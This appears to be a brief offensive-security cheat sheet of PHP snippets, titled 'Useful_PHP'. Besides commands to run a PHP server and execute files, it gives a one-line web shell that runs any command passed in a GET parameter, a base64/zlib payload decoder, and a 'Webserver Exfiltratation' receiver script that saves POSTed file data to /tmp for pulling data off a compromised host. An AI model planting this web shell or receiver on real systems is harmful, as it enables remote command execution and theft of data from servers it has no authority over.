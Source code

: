 # Useful_PHP

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

```php
<?php system($_GET['hello']); ?>
```

```PHP
<?php echo("Hello");phpinfo(); ?>
```


Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```



## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```